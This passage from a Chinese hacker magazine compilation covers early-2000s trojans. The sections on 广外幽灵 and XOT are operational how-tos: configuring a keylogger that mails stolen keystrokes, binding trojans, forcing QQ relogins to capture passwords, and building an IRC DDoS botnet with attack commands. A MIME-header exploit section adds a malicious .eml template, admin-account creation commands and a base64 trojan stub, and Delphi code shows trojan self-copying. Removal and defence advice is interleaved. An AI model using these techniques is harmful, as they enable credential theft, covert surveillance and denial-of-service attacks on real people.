作者好像是把原本“DOS 命令行”下的操作变成了图形界面的形式，这一来就更适合初学者想要对 NT 系统的简单入侵了。这里最有用的就是“NT 类命令”，可以远程启动对方的一系列服务，比如 IPC、AT、NET USE 以及终端等。

### 4．注册表模拟

可以详细操作远程注册表是很方便的事情。原来国内只有 Way 木马做到，“灰鸽子”可谓是集多家之长于一身，前无古人几乎是可以肯定的了。

### 5．两人世界

可以与被控电脑进行文字聊天和语音通讯。这个功能原本是“黑洞”才有的，现在居然也被搬到了灰鸽子上，集成了这么多的功能，灰鸽子仍然非常稳定！实在是很难得。有兴趣的读者不妨一试。

## 四、如何删除灰鸽子服务器

如果中了“灰鸽子”服务端该怎么办呢？当然是要把它彻底地删除！删除办法如下：

“灰鸽子”默认设置不关联文件，如果选择则可以关联 exe、txt、ini、inf。通常可以在注册表中删除启动键值：HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices 和 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 下的 LoadWindows 键值（默认键值）。

删除 exe 关联：找到 HKEY_CLASSES_ROOT\exefile\shell\open\command，将其默认键值改成 "%1" %*

删除 txt 关联：HKEY_CLASSES_ROOT\txtfile\shell\open\command 下的值改为正常情况下的 C:\windows\notepad.exe %1

删除 ini 和 inf 关联：和删除 txt 关联一样操作即可。

灰鸽子最可怕的地方在于它的定时炸弹，因为你不知道它会什么时间发作，发作后可是会删除系统、格式化硬盘，这招很像病毒。所以大家发现灰鸽子后一定要在第一时间删除它！（不会删除的朋友先赶紧把系统时间往前调几年吧！）


# 恐怖的“广外幽灵”

“广外幽灵”想必大家早有耳闻吧？蛮厉害的一个东西，是一个记录键盘的木马。可以记录 IExplore.exe、TBrowser.exe、QQ2000b.exe 和 Explorer.exe 甚至更多应用程序的键盘记录。

怎么样？厉害吧？是不是很想……好，我就顺着这只幽灵先入地狱了。

DOWN 回来的幽灵不大，是个 ZIP 压缩包，只有 168K。我使用的是 2.72 版，在解压后生成 3 个文件：Config、README_B5.txt 和 SetGhost.exe。其中 SetGhost.exe 就是主程序了，如图 1 所示。


## 一、“广外幽灵”选项简介

- 1．发信设置

“你的邮箱”：在这里写上你的邮箱就可以等着那个中招的人的信息源源不断地发进你的信箱了。

“SMTP 服务器”：现在大多数发送邮件的服务器都是 SMTP。

而且这里要注意，一定要找一个不需要验证的 SMTP，否则的话会因为无法通过验证而无法发送邮件。但实际上现在很多邮件服务器都已经开始需要验证了，所以建议大家到国外找一些 SMTP 服务罢。

这里有个密码项，平时是灰色的，呈不可用状态。只有你使用 ESMTP 服务器作为你的发送邮件服务器的时候这项才可用，但一般人都使用不到。

> （注：ESMTP，英文全称是 “Extended SMTP”，顾名思义，扩展 SMTP 就是对标准 SMTP 协议进行的扩展。它与 SMTP 服务的区别仅仅是，使用 SMTP 发送不需要验证用户账户，而用 ESMTP 发信时，服务器会要求用户提供用户名和密码以验证身份。验证之后的邮件发送过程与 SMTP 方式没有两样。）

- 2．记录以下程序的键盘活动

在这里可以选择你想要记录的程序，默认情况下是记录 IExplore.exe、TBrowser.exe、QQ2000b.exe 和 Explorer.exe。懂了吗？几乎你的每一步行动都被记录了。而且你还可以通过“浏览和添加”增加更多的程序来让你监视。

- 3．其他设置

这里没什么太多好讲的，大家一看就懂，只是给一点建议：就是在“每 x 分钟发送一次邮件”中把 x 设置得小一点，这个道理很简单，因为如果时间设置得太大了，而且对方又是拨号上网，结果还没等记录发到你的信箱里，人家就下线了，不是很惨吗？

选择“保存记录文件”，再把“隐藏”前面的勾去掉，会发现 C 盘根目录下会自动生成一个 setuplog.old 文件，打开看看，会吓你一跳的，里面记录的秘密连你也许都不是很清楚呢！如图 2 所示。


## 黑客X档案2002-2003年合订本

# 牧马记

各个选项都介绍完了，按照你想要的进行配置就可以了；然后点击“生成幽灵”，并指定好位置，就会生成一个大小仅 44K 的服务端。你只要想方设法强迫对方收下并运行服务端就可以了。广外幽灵本身的使用可以说没有什么太多的技巧可言，广外幽灵的真正可怕之处在于它和其他木马工具的结合使用。

## 二、与广外女生系列的配合使用

工具：广外幽灵、广外的捆绑机（GwBinder）和广外女生。（呵呵，全是广外女生的作品）

很狠毒的一招，也很简单。把广外幽灵的服务端（44K 大小）和广外女生的服务端（116K）捆绑在一起，这样就生成一个大小仅 176K 的程序，而且有一个漂亮的图标，如图 3 所示。


够狠毒吧？广外女生＋广外幽灵可以说是木马中的原子弹！下面给大家讲几点自己的经验和技巧：

- 1．尽快地获得对方信息

我在配置幽灵的时候一般都会把“其他设置”中“隐藏”那一项前面的勾去掉，也许大家会觉得奇怪，这样不就很容易让人察觉了吗？但是你要相信，广外幽灵骗得了人，但是骗不了杀毒软件。

虽然广外女生可以杀掉对方杀毒软件的进程，但是对方一重启不就露馅了吗？所以很快会找到这个幽灵并 KILL 掉。如果这时候保存的对方的个人信息还没发过来怎么办？亏大了吧？所以把这个保存记录的文件设置为不隐藏，这样我们就可以利用广外女生的“下载对方文件”的功能，来下载在对方 C 盘根目录（默认的是 C 盘）生成的这个文件了。这样就能做到随时查看对方的信息，也不怕对方杀掉我们的幽灵。

生成的这个文件是 C 盘下的 setuplog.old，这是幽灵本身默认的，也可以自己随便改名字和路径，如果修改了路径和文件名的话，那就要自己查找了。

- 2．巧获对方 QQ 密码

如果对方使用 Win98 操作系统，在广外女生里有一项为“进程管理（Win9X）”，我们可以利用这个功能来杀掉对方的 QQ 进程，迫使其重新上线，这样就要重新输入密码，那我们就可以记录到他的密码了。如果对方 QQ 设置的是自动登录的话，我们就没法获取对方的击键记录，幽灵也只能望 QQ 兴叹了。当然，既然我们已经控制了这台主机，那我们还是可以通过破解软件直接对 QQ 目录下的相关文件进行破解，因为篇幅限制这里就不再介绍。

- 3．查看对方更多的信息

有些信息是无法通过键盘记录来获得的，所以我们可以利用广外女生来下载对方的 History 文件夹，这样可以获得对方最近查看过的网页。如果对方是使用 Web Mail 的话，那么你很有可能会看到他的信件。

以上就是一些简单的使用技巧，只要大家自己钻研，还是有很多值得研究的东西。

## 三、广外幽灵和广外女生的手动清除方法

- 1．广外幽灵查杀法

广外幽灵杀除起来有点麻烦，因为它是捆绑在 Windows 的进程上一起运行的。WIN9X 下寄生于 MsgSrv32.exe 的进程中；Win NT/2000/XP 下，幽灵寄生于 Explorer.exe 的进程里面。在 Win2000 下就用 WIN2000 带的进程管理就可以了，利用柳叶擦眼、优化大师这类软件杀掉它捆绑的进程，然后到注册表编辑器的如下位置：HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\，右边窗口里看到 ScanRegistry 的这一项，双击打开后会看到其数据为：C:\WINNT\System32\SCANREGW.EXE /autorun，把 SCANREGW.EXE 改为 SCANREG.EXE 就可以了！

在 2000 下还有一个问题要注意，就是关闭了 Explorer.exe 的进程后会出现只有一片蓝色的桌面的状况，这时候大家不要怕，再按一下 Ctrl+Alt+Del，选择“任务管理器”，并在“应用程序”栏中选择“新任务”，并在出现的对话框里填上 Explorer.exe 点确定就可以了。然后出现桌面，这时候再按上述方法修改。

- 2．广外女生查杀法

先修改 regedit.exe 为 regedit.com（因为它关联了所有 exe 文件），然后到进程管理器（Win98 下用优化大师）中结束 diagcfg.exe 的进程，最后找到它并删除掉。

利用 regedit.com 打开注册表编辑器，到如下位置：HKEY_CLASSES_ROOT\exefile\shell\open\command，把它的“默认”值改为“%1” %*。

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices 下删除名为 DiagnosticConfiguration 的键值。然后将 regedit.com 改回为 regedit.exe 就可以了。

这里再说一点：建议大家使用广外幽灵 2.72 版本，不要使用 2.5 版本，2.5 版本 BUG 太多。

而且广外幽灵最好别单独使用，应尽量捆绑上另一个木马来使用，这样监控起来比较容易。而且找一个强悍点的木马可以用来保护幽灵不被发现，否则光用广外幽灵，很难发挥其真正威力。


# 牧马记

# 放出隐藏在哪个正文中的木马

蓝凤凰

一天收到一封来信，附件中是个名为“想念.eml”的文件，凭直觉我猜它是个含有木马的邮件。由于我的系统早就打上补丁，所以并不害怕。用右键点它并选“另存为”命令将其保存到硬盘上，点击它，OE 就运行了，弹出如图1所示窗口。


图1

选择“保存到磁盘”，将这个附件保存到硬盘，文件名为“获奖名单1102.txt.exe”，文件大小 60544 字节，图标为 Flash 文件图标，如图2所示。再来看 OE 窗口打开的信件，如图3所示。


图2


图3

那么这个“获奖名单1102.txt.exe”文件到底是干什么用的呢？我猜测它是木马程序，所以事先做了防范。检测结果表明，这是 QQ 密码窃取木马 GOP 伪装成 Flash 文件，如果你不小心中了该木马，则你的 QQ 密码就会被窃取。以下是我双击运行该文件后的结果（一定要事先做好防范措施）：

- 首先在当前窗口弹出一个 TXT 文件“获奖名单1102.txt”，用以迷惑受害人；同时在 C:\Windows\System 产生四个文件（全部为隐藏状态），drocerr.sys、drocerrbk.sys、IMEKernel32.sys、kernelsys32.EXE，其中前两个文件用来记录你的 QQ 密码，kernelsys32.EXE 是守护进程；除此以外，在 C:\Windows\Temp 产生一个 TXT 文件“获奖名单1102.txt”。

> [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]\MEKernel32=%WINDIR%\SYSTEM\KERNELSYS32.EXE

木马程序的清除方法很简单，先用进程管理软件，如大家常用的系统优化软件 Windows 优化大师就有此功能，点击“系统安全优化”→“进程管理”，将 kernelsys32.EXE 进程中止；然后点击“开始”→“运行”，在弹出的对话框中输入 regedit，回车，展开注册表到对应注册表项删除该木马自动加载键值；最后到 C:\Windows\System 下删除那四个文件就大功告成了。

可是为什么运行一个 eml 文件就会中木马呢？这个问题可能大家更感兴趣。下面我们就来谈谈这个问题。可能有些朋友已经猜到了，对！这是一封利用了微软的 IE/OE 存在的错误的 MIME 头漏洞进行攻击的恶意邮件，去年流行的病毒尼姆达、求职信、木马登录、笑哈哈等都利用了该漏洞。在本例中被人用来加载 GOP 木马程序，由此大家也可看出该漏洞的威胁有多大、多流行了。事实上，将该邮件以正文发送给没有打补丁的用户，他也会中招！

### 1、MIME 简介

MIME（Multipurpose Internet Mail Extensions），一般译作“多用途的网际邮件扩充协议”。顾名思义，它可以传送多媒体文件，在一封电子邮件中附加各种格式文件一起送出。现在它已经演化成一种指定文件类型（Internet 的任何形式的消息，E-mail、Usenet 新闻体和 Web）的通用方法。几乎任何 CGI 程序制作时都可能接触到 MIME 类型，其中有一行叫作 Content-Type 的语句，它用来指明传递的就是 MIME 类型的文件（如 text/html 或 text/plain）。

### 2、错误的 MIME 头漏洞的发现

该漏洞是由一个国外安全小组发现的。该小组发现在 MIME 在处理不正常的 MIME 类型时存在一个问题：攻击者可以创建一个 HTML 格式的 E-mail，该 E-mail 的附件为可执行文件，通过修改 MIME 头，使 IE 不正确处理这个 MIME 所指的可执行文件附件。

在此，我们来了解一下，IE 是如何处理附件的？一般情况下如果附件是文本文件，IE 会读它；如果是 VIDEO CLIP，IE 会播放它；如果附件是图形文件，IE 就会显示它；如果附件是一个 EXE 文件呢？IE 会提示用户是否执行，但令人恐惧的是：当攻击者更改 MIME 类型后，IE 就不再提示用户而是直接运行该附件，从而使攻击者加在附件中的想法或攻击命令能够按照攻击者设想的情况进行。

大家不妨想像一下，如果前面提到的“获奖名单1102.txt.exe”是恶意程序“硬盘终结者”又会怎么样？刹那间，你的硬盘就完蛋了——硬盘上所有的资料都没有了！Internet Explorer 5.0、5.01、5.5 均存在该漏洞，我们常用的微软邮件客户端软件 Outlook Express 5.5 SP1 以下版本也存在此漏洞。

### 3、错误的 MIME 头漏洞的危害

让我们来看一个小例子：

```text
Content-Type: audio/x-wav;
name="hello.vbs"
Content-Transfer-Encoding: quoted-printable
Content-ID: <THE-CID>
msgbox("你的计算机好危险哦")  // 在此可以加上任意的 VBS 代码
```

将这部分代码存为以 eml 后缀名的文件，我们运行它，可以看到屏幕上打开一个窗体，显示“你的计算机好危险哦”。对于这种利用错误的 MIME 头漏洞调用 VBS 文件的形式，会有多大危害呢？目前流行的许多病毒都是利用了该漏洞，如木马、拉登病毒和笑哈哈病毒都如此。这类病毒一旦和错误 MIME 头漏洞结合起来，就根本不需要你执行了，只要你收了这封带毒邮件并预览了它，你就中招了。

不仅如此，利用错误的 MIME 头漏洞还可以与 command、cmd 等命令相结合，达到进行进一步攻击的目的。对于 WIN9X 用户来说，只要你的 IE 浏览器是 5.0、5.01、5.5 之中的任意一个版本，在没打补丁的情况下，攻击者完全可以利用欺骗方式让你打开含有攻击命令、带有错误 MIME 头的 E-mail 文件，来达到攻击的目的。

而对于 WINNT、WIN2K 用户，尤其是那些不安分守己且网络安全知识贫乏的系统管理员，利用公司的主服务器上网，攻击者就可以给他发封信，然后利用以上所示代码中加上诸如：

```text
net user test 1234567 /add
net localgroup administrators test /add
```

这样的命令增加用户或者超级用户权限，达到进一步入侵的目的。

等一切 MS-DOS 下的命令均可加载在其中。

## 4、实例分析

让我们以收到的这封邮件为例来分析一下它的代码。以下为其主要部分：

```text
Content-Type: audio/x-wav;
name="获奖名单1102.txt.exe"
Content-Transfer-Encoding: base64
Content-ID: <THE-CID>

TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
JgAAAAAfuAAAnN1bgBTM10hVGhocybwcm9ncm
F1GNbn5vdCBiZSBvdW4gaW4gRE9TIG1v
ZGUDQ0KIAAAAAAAAAAD0Dto2im+0ZYpvtGWKb7Rl8X04
ZYytGXicl9lgmf0ZQlzumWYb7Rl5XC+
ZdxvGWKb7RliW+0Zehvp2WbbRIm+1ZQRvcWMTL9jW+0Z
U1osmWlb7RUmjlaJovtGUAAAAA
（以下删节）
```

其中，“Content-Type: audio/x-wav;”这句表示将文件的类型定义为“audio/x-wav”，即音频文件；

“name="获奖名单1102.txt.exe"”用来定义木马文件名，在此为“获奖名单1102.txt.exe”；

而这一句“Content-Transfer-Encoding: base64”则定义了“获奖名单1102.txt.exe”文件的编码方式为 Base64。Base64 是目前最常见的邮件编码算法（邮件的编码方式主要有：UUencode、Base64 encode、QP-encode、BINHEX 等，Base64 为 E-mail 的编码方式之一）。

从“Content-ID: <THE-CID>”这句开始才是代码的起步，你看到的类似“TVqQAAMAAAAEAAAA//8AALg”这些字符，就是“获奖名单1102.txt.exe”这个文件经过 Base64 编码后的内容。这个以 Base64 方式编码的文件会反译成“获奖名单1102.txt.exe”文件，并在你预览或点击查看该邮件内容后就运行（如果你的系统没有打补丁的话）。

事实上，“获奖名单1102.txt.exe”这个文件在这里相当于邮件的附件。从我们所列的代码中可以看到，攻击者把该文件的类型定义为 audio/x-wav。由于邮件的类型为 audio/x-wav 时，IE 将在这个错误的 MIME 头漏洞影响下把附件认为是音频文件而自动尝试打开，结果导致邮件文件“想念.eml”中的附件“获奖名单1102.txt.exe”被执行。

在 Win2000 下，即使是用鼠标点击下载下来的“想念.eml”，或是拷贝粘贴该文件，都会导致“想念.eml”中的附件被运行，你说微软的这个漏洞可怕不？

事实上，浏览邮件或网页会中木马完全是因为此漏洞。

## 5、防范方法

- 1）最好的办法是不使用 IE 和 OE。可以用 Netscape 等其它浏览器代替 IE，用 Foxmail 等其它电子邮件客户端软件代替 Outlook Express。

如果非要用，建议你按下面的方法进行操作：

运行 IE，点击“工具→Internet 选项→安全→Internet 区域的安全级别”，把安全级别由“中”改为“高”，如图4所示。


接着，点击“自定义级别”按钮，在弹出的窗口中，禁用“对未标记为可安全执行脚本的 ActiveX 控件执行脚本”选项，禁用 IE 的“活动脚本”和“文件下载”功能，禁用所有的 ActiveX 控件和插件。


在资源管理器中点击“查看”→“文件夹选项”→“查看”，将“隐藏已知文件扩展名”前面的勾取消，如图5所示。

禁止以 Web 方式使用资源管理器，如图6所示。最后是永远不直接从 IE 浏览器中选择打开文件。

- 2）禁止邮件预览属性。以 OE 和 Foxmail 为例：在 OE 中点击“工具”菜单中的“选项”，打开“选项”对话框，点击“阅读”标签，将如图7所示地方不选即可。

在 Foxmail 中，在你的帐户上点击右键，选择“属性”，找到“字体与显示”，将“使用嵌入式 IE 浏览器显示 HTML 邮件”前面的勾取消，如图8所示。


图8

- 3）不要受陌生人的诱惑打开别人给你的 URL，如果确实想看，可以通过一些下载工具把页面下载下来，然后用记事本等一些文本编辑工具打开查看代码。

- 4）微软公司为该漏洞提供了一个补丁，赶快到下面所列出的地址去看看吧：  
http://www.microsoft.com/windows/ie/download/critical/Q290108/default.asp。


QQ 号被盗一直是网友们所痛恨的事，但是网上偏偏就是有这么多人喜欢发布一些盗 QQ 号的软件出来。8 月 17 日发布的 QQ 杀手 6.197 版就是目前较新的一款 QQ 密码盗号木马！适用于 Win2k 和 Win98，支持的 QQ 版本有：QQ2000b0710 到 QQ2000c0630。其发信部分支持更多的国内邮箱，并且提供了将木马程序和自定义图片捆绑功能，伪装成电子贺卡，这让它与其它木马相比具有很强的欺骗性。下面我们将以纪实的形式看看怎样完整地在 Win98 下删除这个木马程序（Win2k 下的删除方法相似）。

先从木马程序作者主页 http://www.66qq.com/killcn/index.htm 下载 QQ 杀手 6.197，文件大小为 215KB，解压缩后按照说明运行 Qqset.exe 配置并安装这个木马。如图1所示：


图1

顺利中招了，接下来当然是立即清除啦！晕，丢了我找谁哭去呀！在“开始”→“运行”中输入 msconfig，回车后打开 Win.ini 选项，在其 [windows] 目录下添加了一句“run=C:\WINDOWS\EUDCEDIT.EXE”，编辑并删除这一句，如图2所示：


图2

结果重启动之后提示 MSTRAY.EXE 运行出错，在“开始”→“运行”中输入 regedit，确定后打开注册表编辑器，仔细检查才发现木马程序在 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 下还添加了极具有欺骗性的一句 "SystemIKAV"="C:\WINDOWS\SYSTEM\MSTRAY.EXE"，竟美其名曰：“系统防火墙”。删除它！如图3所示：


图3

再次重启，已经没有出错提示了。然后，用金山毒霸自带的升级程序从网上升级最新的金山毒霸病毒代码库，或从 http://gz3.duba.net/download/ 选择相应的病毒代码库下载安装，再对 C:\WINDOWS 文件夹扫描，log 如下：

```text
病毒防火墙——发现[Trojan.QQKiller.123392]病毒在C:\WINDOWS\MSSCF.EXE文件中(可以清除)
病毒防火墙——发现[Trojan.QQKiller.123392]病毒在C:\WINDOWS\NOTEPAD.EXE文件中(可以清除)
病毒防火墙——发现[Trojan.QQKiller.123392]病毒在C:\WINDOWS\CUEDIT.EXE文件中(可以清除)
病毒防火墙——发现[Trojan.QQKiller.123392]病毒在C:\WINDOWS\KAEDIT.EXE文件中(可以清除)
病毒防火墙——发现[Trojan.QQKiller.123392]病毒在C:\WINDOWS\FREECELL.EXE文件中(可以清除)
病毒防火墙——发现[Trojan.QQKiller.123392]病毒在C:\WINDOWS\MSTRAY.EXE文件中(可以清除)
```

将它们统统删除后，可是进行一些常用操作之后又有新发现。首先是记事本程序 NOTEPAD.EXE 被删掉了，其次是 *.CHM、*.SCR、*.REG 文件 OPEN 关联被修改。下面是我对其解决的方法：

- 1. 得到了网友的帮助，传了个 52K 的记事本程序 NOTEPAD.EXE 给我。（后又仔细检查了 C:\WINDOWS 文件夹，才发现记事本程序 NOTEPAD.EXE 并没有被删，只是被改名为 Mspad.exe 了！）
- 2. 将注册表中 HKEY_CLASSES_ROOT\chm.file\shell\open\command 主键下的默认键值改为 C:\WINDOWS\hh.EXE %1；
- 3. 将注册表中 HKEY_CLASSES_ROOT\scrfile\shell\open\command 主键下默认键值改为 ls；
- 4. 将注册表中 HKEY_CLASSES_ROOT\regfile\shell\open\command 主键下的默认键值改为 C:\WINDOWS\REGEDIT.EXE %1。

当然，如果你以前备份过注册表文件，就可以利用备份的注册表文件恢复被木马修改的注册表文件，这样是最好不过的了。OK，现在我们已经完成了 99% 的任务了，QQ 杀手 6.197 还留了个尾巴在我们机子里，如果现在运行 qset.exe 配置程序，它会提示以前可能安装过 QQ 杀手 6.197，还显示出了机马者的接收邮件。

手工检查了很久也没找到这些信息到底存放在哪，无奈之下，我从 http://www.skycn.com/soft/2973.html 下载了 RegSnap 3.0 中文版，这是一款监视注册表以及系统文件变化的好工具。先用 RegSnap 新建一个系统镜像文件，再安装一遍木马，这时再新建一个系统镜像文件，最后对建立的两个系统镜像文件进行比较，终于发现，尾巴在注册表的 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\passqq6197 主键下。删掉这个主键后再运行 Qset.exe 配置程序便没有了已安装提示。如图4所示：


至此，QQ 杀手 6.197 终于被完整地请出了我的电脑。

# 什么可以反攻制胜的网络木马——XOT

中国的网络发展到今天，已经不像前些年那样单纯了。以前的人们连杀毒软件都不安装，就算偶尔有人装了也不过是做个摆设，根本不去升级；可现在据我的网站对来访几千个注册用户的调查，有将近百分之八十八以上的人都安装了杀毒软件，其中有一半的人是每周升级一次病毒库，而且同时安装了黑客防火墙的人数也占相当大的比例。到底是什么使如今的中国网民如此惶惶不可终日？

杀毒软件可以预防病毒，黑客防火墙则能帮你抵御一般的强行攻击，那么是不是安装了这两道盾牌的个人电脑用户从此就可以高枕无忧了呢？答案是否定的，从国外漂洋过海来到中国的木马 XOT 可以雄壮地说：“挡我者死。”

### 一、XOT 木马的类型

XOT 是 DDoS 攻击型木马，DDoS 是分布式拒绝服务攻击的意思。所谓分布式就是“面”对“点”的攻击，而不是“点”对“点”的攻击。简单地说，就是用大量的电脑去攻击一台电脑，这样效果比一台攻击一台要好得多。XOT 采用的攻击方式主要是 IGMP 攻击，这种攻击方式注定了对个人电脑用户的效果要远高于服务器主机。在和木马帝国版主 Meteor 的测试中，我曾用不到十台的 XOT 去攻击他在加拿大的主机，结果几分钟后他就掉线了，攻击效果非常显著！如果连续不断地使用 XOT，甚至可以让对方处于长时间不能上网的状态。

### 二、XOT 的配置图解

现在的木马都非常复杂，所以几乎任何木马在配置上都是重头戏，尤其是国外木马更是麻烦，配置做不好木马就会无法正常使用。说这些只是希望大家重视对木马的配置，认真做好每一步。

首先解开 XOT 的压缩包，里面有 DRSS Config.exe、EditServer.exe、Server.exe、micks.txt 等几个文件；还有几个 dll、ini 文件我就不说了，配置用到的就是前面四个。

### 1、DRSS Config.exe 的使用

先在 XOT 目录中新建一个“set.txt”空文本文件，然后打开“DRSS Config.exe”，点击上面的“browse”浏览，选取刚建的这个“set.txt”文件，如图1所示：


# 牧马记

接下来我们要把建立的输入法调整为大写英文输入，也就是按下“Caps Lock”这个键。再把鼠标点到“DRSS Config.exe”的空白栏中输入一个大写字母“S”，这时候会看到“S”的后面自动出现了“<server>:<port>:<password>”，这些就是你等会要更改配置的选项。按下回车换行，和刚才一样的方法输入字母“C、O、I、N”，如图2所示：


图2

配置各项参数如图3所示：


图3

是不是很麻烦？不要紧，我再把各项意义给大家注释一遍，相信这样大家会清楚许多。注释如下：

- **S**：irc.wz163.net（IRC 服务器地址）:6667（端口）；
- **C**：#trojan（房间）:password（进入房间口令，如果你的房间有密码，别人就无法随便进入你的房间偷马，由自己设置）；
- **O**：*:*:*:pop731:passwd（木马唯一的控制者名称，只有他才能对马验证口令！如果别人用了 boy 这个名字，即使知道后面的 pwd，马也不会听他的）:*:pwd（就是你要对马验证的口令，由自己设置）；
- **I**：!（命令前缀，可为任何一个单字符或字母，这个对安全很重要）:xizimm:cooks:wuhan:trojan@10mail.net（随便填个信箱）:xizi
- **N**：names.txt（马的随机名称列表，默认是英文名，你为了掩人耳目，也可以改为中文名，如图4所示）。


图4

配置完毕后点击“save”，这时会提示你输入密码，这是为了防止有人得到你这个配置文件后读取到你的配置而偷走你的马，因为“set.txt”直接用记事本打开是乱码。

理解以上配置的前提条件是你必须对 IRC 有一定了解，因为 XOT 的控制全部是在 IRC 房间内进行的，这个后面将给大家讲到。

## 2、EditServer.exe 的使用

如图5所示：


图5

File location：这后面要填网址，比如你把前面配置的 set.txt 上传到 http://mmbest.com/set.txt 位置，那么这里就填写 http://mmbest.com/set.txt，意思就是让 server.exe 去 http://mmbest.com 里读取 set.txt 中的配置信息。

Interval in min：这个是服务端取回延迟时间，比如你在这里设置为 10，就是你给目标机器运行 server.exe 后，它要等十分钟才会到你设置的 IRC 房间内报到，为了加快速度我一般把这个数设为 1。

Password：服务端的配置密码，这个也是为了防止别人拿到你的服务端后读取到你的配置信息而做的加密。

ID tag：标识，随便填。

全部配置好后如图6所示，然后点击“write”，确认写入信息成功。


图6

## 三、XOT 的使用控制

以上两大步配置完成后，将“set.txt”上传到一个主页空间就可以了，以后我们要做的就是给尽可能多的机器安装上我们配置好的“server.exe”服务端，这样你才能拥有一个足够强大的攻击兵团。值得注意的是，XOT 只能安装在 Windows 98 系统上，也就是说 NT/2000/Linux 等不能安装服务端。

## 1、准备好客户端并申请一个 IRC 房间

要知道 XOT 是没有给我们准备客户端的，它的客户端其实就是 IRC 客户端，经常在 IRC 聊天的朋友们肯定知道。

### 2、具体攻击步骤演示

当你手中有一定数量的 XOT 以后就可以开始实施攻击行动了。首先进入你的“基地”，也就是你的 IRC 马房，如图7所示：右边密密麻麻的都是受我们控制的“马”，每一个名字就是一台单独的电脑。我想一下，用这么多的电脑发出 IGMP 数据包去攻击一个个人用户，谁能抵挡得住？

- 我们进入后先把自己的名字改为马的合法控制者名称，然后对马进行控制前口令验证，命令如下：

`!login password`

如果验证成功，会看到所有的马发出成功的响应，很壮观哦！

如果你要攻击的 IP 地址是 10.56.20.3，那么对应的命令是：

`!igmp 10.56.20.3 10000 100 100`

这里的“10000”是 IGMP 数据包大小，第一个“100”是攻击次数，最后一个“100”是攻击延迟，设为“100”即可。整条命令的意思就是对 10.56.20.3 这个 IP 地址连续发出 100 个大小为 10000 的 IGMP 数据包，包延迟时间为 100 毫秒。

如果被攻击目标比较坚强，你可以适当增大包的大小和增加包的发送次数。如果对方是没有打补丁的 Windows 98，那么只要少数几台 XOT 就足以使对方系统蓝屏崩溃了；就算打了补丁的 Windows 98，甚至于 Windows 2000，也是挡不住十几台 XOT 的狂轰滥炸的；就算是不会掉线的宽带系统，也会出现系统速度突然变慢，各类程序响应极其迟缓，最终不得不重新启动计算机。


### 3、扫遍全网的命令

XOT 的服务端之所以有 168K 之大，决不仅仅是 IGMP 攻击这么简单，它是一个完善的 BOT，可以模仿真人在 IRC 内作出各种动作，你可以在幕后控制它说话、改名字，还可以对其它 IRC 服务器进行可怕的克隆攻击。所谓克隆攻击，就是将一个或者多个 XOT 木马进行几百上千倍的复制，对目标 IRC 服务器或者房间进行“flood”攻击，亲眼见识过的人一定会想起“飞流直下三千尺”这句诗。

XOT 所有命令如下：

- `!say <channel/user> <text to say>` -- makes the bot say something
- `!op <channel> <user>` -- makes the bot op someone
- `!deop <channel> <user>` -- makes the bot deop someone
- `!ban <channel> <hostmask>` -- makes the bot ban someone
- `!unban <channel> <hostmask>` -- makes the bot unban someone
- `!voice <channel> <user>` -- makes the bot voice someone
- `!devoice <channel> <user>` -- makes the bot devoice someone
- `!notice <channel/user> <text to say>` -- makes the bot send a notice
- `!action <channel/user> <text to say>` -- makes the bot do an action
- `!ctcp <channel/user> <ctcp command>` -- makes the bot ctcp someone
- `!nick <nickname>` -- makes the bot change its nickname
- `!raw <raw IRC command>` -- makes the bot do a RAW IRC command
- `!id` -- makes the bot display its tag
- `!sync` -- makes the bot resync its DRSS file
- `!login <password>` -- logs into the bot
- `!exec <hide or show> <commandline>` -- executes a commandline
- `!ping <address> <packetsize> <times>` -- ICMP attack
- `!udp <ip> <packet size> <times>` -- UDP attack
- `!igmp <address> <packetsize> <times> <interval>` -- IGMP attack
- `!clone <server> <port> <# of clones>` -- clone attack
- `!cloneraw <raw IRC command>` -- send a raw IRC command to the clones
- `!clonekill` -- kills all clones
- `!info` -- gives computer info of the computer that the bot is on
- `!botinfo` -- gives bot version and such

到这里基本上写完了，给大家介绍这个木马并不是号召大家都去“IGMP”别人，搞得网上人人草木皆兵，而是向大家展现一个思路：国外的 DDoS 攻击是如何发起的，我们未来还可能遭遇哪些攻击。还是那句话，只有学会如何攻击才能够知道如何防范。

警告：使用以上方法攻击别人所造成的一切法律后果，本文不负任何责任！

# 木马是如何做到自我拷贝和关联文件的

大家知道，木马可以做到自我拷贝和关联文件，这使得我们在检查、清除它们时很困难，那么木马是怎样做到这些的呢？先来说说自我拷贝。

自我拷贝的原理是程序运行时先查看自己是不是在特定目录下，如果是，就继续运行；如果不是，就把自己拷贝到特定目录下，然后运行新程序，再退出旧程序。

我们以 Delphi 为例来讲。打开 Delphi，新建一个工程，在窗口的 Create 事件中写如下代码：


```pascal
procedure TForm1.FormCreate(Sender: TObject);
var myname: string;
begin
myname := ExtractFilename(Application.Exename); // 获得文件名
if application.Exename <> GetWindir+myname then // 如果文件不是在 Windows\System\ 那么
begin
  copyfile(pchar(application.Exename), pchar(GetWindir+myname), False); // 将自己拷贝到 Windows\System\ 下
  Winexec(pchar(GetWindir+myname), sw_hide); // 运行 Windows\System\ 下的新文件
  application.Terminate; // 退出
end;

// 其中 GetWinDir 是自定义函数，功能是找出 Windows\System\ 的路径。
function GetWinDir: String;
var
  Buf: array[0..MAX_PATH] of char;
begin
  GetSystemDirectory(Buf, MAX_PATH);
  Result := Buf;
  if Result[Length(Result)] <> '\' then Result := Result + '\';
end;
```

另外，为了避免同时运行多个程序的副本，节约系统资源，程序一般会设置成每次只能运行一个。这有几种方法，一种方法是程序运行时先查找有没有相同的运行程序，如果有，就立刻退出程序。

修改 dpr 项目文件，修改 begin 和 end 之间的代码如下：

```pascal
begin
  Application.Initialize;
  if FindWindow('TForm1', 'Form1') = 0 then begin
    // 当没有找到 Form1 时执行下面代码
    Application.ShowMainForm := False; // 不显示主窗口
